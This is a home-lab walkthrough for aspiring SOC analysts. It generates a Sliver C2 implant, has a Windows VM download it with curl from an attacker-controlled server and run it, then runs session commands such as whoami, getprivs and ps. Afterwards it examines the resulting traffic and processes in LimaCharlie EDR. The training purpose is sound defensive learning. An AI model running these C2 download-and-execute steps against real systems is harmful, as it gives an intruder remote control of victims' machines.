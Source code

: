 # Part Two - Observing Noise

### Blog Post: [So you want to be a SOC Analyst? Part 2](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part-ea2)

Note: You will need to complete "Part One - Virtual Lab Setup" and have your Ubuntu Linux Server IP for this part of the walkthrough. 

## Generating C2 Payload

After either interacting with your Ubuntu Server or using a SSH session on your chosen Linux VM, you can become root and go to the Sliver install directory: 
```
sudo su
cd /opt/sliver
```

From there, you can launch Sliver Server with the following command:
```
sliver-server
```

If successful and everything has been installed correctly, you should recieve similar output: 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/3f860d1c-7578-4ef7-903d-b43ee4ccbdae)

In the server session, we can generate our first C2 session payload (replacing "UbuntuIP" with our Ubuntu Server IP): 
```
generate --http <UbuntuIP> --save /opt/sliver
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/483ba814-d2a3-4759-8d84-cf464517ade9)

Confirm the new implant:
```
implants
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/0718a866-8ac4-4e80-87c5-18ba4edcfaad)

Now, after confirming the implant configuration and that our C2 payload is good to be transferred to the Windows VM, exit Sliver.
```
exit
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/a4eff8df-cf94-4869-89c0-c39ebfab1283)

Now, start a web server with python3 or any equivalent command:
```
python3 -m http.server 80
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/7b7bee52-6cc2-4d5e-ae43-4ea421840681)

Now, switch to our Windows VM. Using the following command (replacing "UbuntuIP" with our Ubuntu Server IP and replace "payload" with your C2 payload name), we can download the C2 payload from the Ubuntu Linux Server:
```
curl -o C:\Users\User\Downloads\<payload>.exe http://<UbuntuIP>/<payload>.exe
```

It should look similar to this, with your payload name and IP differing:
![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/4d0de454-69f6-4de2-a8e4-a0503e5647af)

We can also check to make sure that the payload downloaded properly by using the following command to see the contents of our current directory: 
```
dir
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/d3605fab-9c9d-438f-add2-749383d1e646)


## Start Command and Control Session
Returning to the Linux VM SSH session, we must enable the Sliver HTTP server to catch the callback.

Terminate the python web server we started using Ctrl + C

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/130a3c65-8585-47c3-a0e1-8fd6fa906044)

Now, relaunch the Sliver HTTP listener (You will often see #s in scripts as comments or notes to the user to help advise them, as shown below):
```
#First Command
sliver-server

#Second Command
http
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/0bd13753-bc46-41bb-90d8-f438e120bfee)

Return to the Windows VM and execute the C2 payload from its download directory (replacing the "C2-implant" with the payload name from earlier):
```
C:\Users\User\Downloads\<C2-implant>.exe
```

For example: 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/fef8444d-9fb8-486e-99b5-6a2550c69e75)

If successful, we should see activity on the Sliver Server:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/55784ad5-1e60-4038-853b-d091117749ea)

Verify the session, cross referencing the Session ID found adjacent to "Session" or located below "ID":
```
sessions
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/94e6011b-41c7-4c9c-9418-01247c6c4927)

To interact with your new C2 session, use the following command:
```
use <session_id>
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/1b9ba9e0-f7ae-4f4f-975d-64ccf569f371)

Now interacting with the C2 session on the Windows VM, we will run a few basic commands.

Basic Info:
```
info
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/f62ade56-eace-4ab7-a30c-7f7a1f95f7b7)

User and Privileges:
```
#First Command
whoami

#Second Command
getprivs
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/603d8899-75b6-4e56-a509-76ed8e23d257)

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/96dc0246-d0fb-4b41-bcef-f40c610ed2fb)

Working Directory:
```
pwd
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/99fcfc2d-a551-47fe-bd10-55cd2f5abc79)

Network Connections:
```
netstat
```

Example of cropped output:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/64ec6144-5a51-4bc3-a336-538b0abac421)

We will also see our payload in green:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/18d8eae9-5e88-45f7-a6ae-247272d9913a)

Running Processes within a "Process Tree" format:
```
ps -T
```

Example of cropped output: 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/f7e6bc58-637b-45a2-80c7-287c31c1d527)

As we can also see in this following example, defensive tools will be highlighted in red and mentioned in "Security Product(s)": 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/10c5c9b5-25ae-4754-bc94-e4c220c5f797)

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/4b696bb0-afbc-4f72-aace-6b10c2b68831)

Likewise, our tools will once again be highlighted in green:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/52df3e2e-2e3f-47c8-847a-5d2e3b8f7bde)

## Observe EDR Telemetry

Switching to the LimaCharlie web UI, we can check out our sensors. We are looking for the windev2404eval sensor, as shown below:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/7fd71ff2-55f1-4221-91ea-b5fc3d871bb7)

After selecting the relevant sensor, we need to select "Processes" on the left-hand column:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/5cf84da5-0bb8-417f-9afd-2cb2aae975a5)

Feel free to explore the processes running. As stated in the blog series, a great way to spot unusual processes is to look for processes that are not signed (those lacking the green dot with a check mark).

For example, the C2 payload: 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/b63bc1c7-0d79-466f-a17c-3cc8ac7ad5e0)

We can also view the network connections of said payload: 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/6d30fabc-fd4b-4ee1-806d-6d4c1bed47fa)

This should show the connection to the Ubuntu server:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/4c80e8fa-eaf5-4114-b319-3b4a63173510)

Now, switch to the "Network" tab (located above the current Processes tab):

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/c2b6f514-dfa2-4bf3-8d9c-3ca6b8ebc90b)

After selecting the Network tab, Ctrl + F and type in your payload's name, example shown below:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/934ccceb-f620-4e56-b1b7-03091cab2023)

Now, switch to "File System", located above the "Network" tab:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/e65bbe48-3ed7-44d2-9ec8-7c11ffe940a5)

Browse to our payload's directory:
```
c:\Users\User\Downloads
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/6defd2db-e54d-4064-8b52-2431f191c332)

We can inspect our payload's file hash:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/2e8b09b8-f9b1-4d06-a7ed-7508f487cd21)

As we do so, we will be given the option to "Search hash on VirusTotal". Click the button to do so. 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/99ff1a00-841b-4320-8cda-0a6bb84f02c0)
